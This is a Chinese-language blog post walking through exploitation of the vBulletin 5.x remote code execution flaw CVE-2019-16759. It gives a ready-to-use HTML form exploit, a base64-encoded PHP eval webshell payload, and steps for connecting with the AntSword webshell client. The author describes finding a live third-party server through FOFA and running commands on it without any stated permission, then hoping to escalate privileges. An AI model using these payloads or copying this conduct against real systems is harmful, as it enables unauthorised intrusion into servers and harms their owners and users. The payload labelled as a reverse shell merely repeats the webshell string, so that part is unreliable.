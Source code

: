 ```yaml
---
layout:     post
title:      实战vBulletin 5.x远程代码执行0day漏洞
subtitle:   vBulletin 5.x远程代码执行漏洞
date:       2019-09-26
author:     看不尽的尘埃
header-img: img/post-bg-ios9-web.jpg
catalog: 	 true
tags:
    - 漏洞复现
    - 实战
---
```

## 0x00 漏洞介绍
* 漏洞名称：vBulletin 5.x远程代码执行漏洞
* CVE编号：CVE-2019-16759
* 发布时间：2019-09-25
* 漏洞说明：漏洞通过请求ajax/render/widget_php进行模板注入触发代码执行。
* 影响范围：vBulletin 5.0.0 到最新 5.5.4版本
* 修复建议：及时更新和进行安全加固配置,下载安全更新补丁

## 0x01 一次实战
我这边就编写一个HTML文件来验证这个漏洞：
```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>vBulletin 5.x远程代码执行</title>
</head>
<body>
<h1>vBulletin 5.x远程代码执行</h1>
<form action="http://www.xxxx.com/" method="post" enctype="multipart/form-data">
    <p><input type="text" name="routestring" value="ajax/render/widget_php"></p>
	<p><input type="text" name="widgetConfig[code]" value="phpinfo();exit;"></p>
    <p><input type="submit" value="submit"></p>
</form>
</body>
</html>
```
由于这个论坛系统是是否的，所以这边只好从互联网上找一台服务器来尝试下了，我是通过FOFA网络空间搜索引擎搜索到的一个存在漏洞的服务器。
当我们从页脚发现它的版本号是5.x的时候，我们就可以编辑这个HTML的接收地址，再使用浏览器打开这个HTML文件，打开的界面就是这样的，需要执行其他的代码或者其他的命令可以修改第二个文本框的内容：
![图片](../../../../img/vBulletin5_rce_1.png)
点击提交后，存在漏洞的网站就会执行phpinfo，如下图所示：
![图片](../../../../img/vBulletin5_rce_2.png)

通过修改上一个步骤中的代码，我们执行了id命令，查看了当前用户的权限：
![图片](../../../../img/vBulletin5_rce_3.png)

那么接下来就开始写入一句话去连接，但是怎么也写不进去...初步觉得是目录权限问题，下面是我的Payload：
```
fputs(fopen('tools.php','w'),base64_decode('PD9waHAgQGV2YWwoJF9HRVRbdGVzdF0pOz8+'));exit;
```
尝试bash反弹shell也失败：
```
system(base64_decode('PD9waHAgQGV2YWwoJF9HRVRbdGVzdF0pOz8+'));exit;
```

自闭了几分钟我想到了使用中国蚁剑去直接连接，我是这么想的，从第一个phpinfo那个PoC来看，应该是类似eval()这类函数导致的漏洞，既然是eval函数那么就可以直接通过一句话客服端连接，这时候我就想到了中国蚁剑还有"使用Multipart发包"这个功能！
具体配置如下面几张图所示，把widgetConfig[code]当作密码：
![图片](../../../../img/vBulletin5_rce_4.png)
还需要在请求头中加上routestring参数，值为ajax/render/widget_php：
![图片](../../../../img/vBulletin5_rce_5.png)

最后不要忘记勾选"使用Multipart发包"，然后点击连接即可：
![图片](../../../../img/vBulletin5_rce_6.png)
如下图所示，成功连接上，但是尝试上传文件，却发现失败，应该是没有写权限，因此可以尝试切换到tmp目录下面，进行内核提权：
![图片](../../../../img/vBulletin5_rce_7.png)

下面是我抓到的中国蚁剑的HTTP数据包，可以参考一下：
![图片](../../../../img/vBulletin5_rce_8.png)

## 0x02 Web指纹
毕竟我还是以写漏洞策略为主的，因此还需要寻找这个系统指纹，比如以下几个：
* `<meta name="description" content="vBulletin Forums" />`
* `<meta name="generator" content="vBulletin (\d\.\d\.\d)" />`
* `vBulletin.version = '(\d\.\d\.\d)';`
## 0x03 总结
感觉到自己在提权这一块还是比较欠缺的，当我拿到一个WebShell，我都不知道该怎么样最大程度的利用它去获取到服务器的最高权限，在这方面以后还是有待加强！


